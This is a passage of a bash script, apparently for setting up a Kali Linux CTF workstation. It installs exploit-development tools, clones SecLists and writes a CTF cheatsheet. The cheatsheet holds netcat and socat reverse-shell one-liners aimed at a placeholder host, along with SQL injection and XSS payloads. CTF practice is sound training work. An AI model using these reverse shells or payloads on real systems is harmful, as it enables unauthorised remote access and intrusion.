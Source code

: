 ```bash
fi

# 2.7 Exploit Development
if prompt_yes_no "Install exploit development tools (metasploit, pwntools, etc.)?"; then
    log "Installing exploit development tools"
    apt install -y \
        metasploit-framework exploitdb pwntools ropper
    check_error "Exploit development tools installation"
fi

# 2.8 Python Environment
log "Setting up Python virtual environment"
python3 -m venv "$CTF_DIR/venv"
check_error "Virtual environment creation"
source "$CTF_DIR/venv/bin/activate"
pip install --upgrade pip
pip install pwntools requests flask r2pipe pillow
check_error "Python packages installation"
deactivate

# 2.9 Additional Downloads
log "Downloading SecLists"
git clone [https://github.com/danielmiessler/SecLists.git](https://github.com/danielmiessler/SecLists.git) "$TOOLS_DIR/SecLists" || { log "${RED}Error: SecLists clone failed${NC}"; exit 1; }

# 3. Directory Structure
log "Creating CTF directory structure"
mkdir -p "$CTF_DIR"/{tools,notes,binaries,web,reversing,pwn,crypto,forensics,writeups}
check_error "Directory creation"

# Initialize Git for notes
log "Initializing Git for notes"
if [ ! -d "$CTF_DIR/notes/.git" ]; then
    cd "$CTF_DIR/notes" || check_error "Change to notes directory"
    git init
    touch notes.md cheatsheet.md
    cat <<EOL > cheatsheet.md
# CTF Cheatsheet

## Reverse Shells
- Netcat: \`nc -e /bin/bash 10.10.10.10 4444\`
- Socat: \`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444\`

## Web Payloads
- SQL Injection: \`' OR 1=1 --\`
- XSS: \`<script>alert('XSS')</script>\`

## Common Commands
- Nmap: \`nmap -sC -sV -Pn <target>\`
- Gobuster: \`gobuster dir -u <url> -w ~/tools/SecLists/Discovery/Web-Content/common.txt\`
EOL
    git add .
    git commit -m "Initial CTF notes"
    check_error "Git initialization"
else
    log "${YELLOW}Warning: Git repository already exists in notes directory. Skipping initialization.${NC}"
fi

# 4. Aliases and Bash Settings
log "Configuring bash aliases"
cat <<EOL >> "/home/$KALI_USER/.bashrc"
# CTF Aliases
```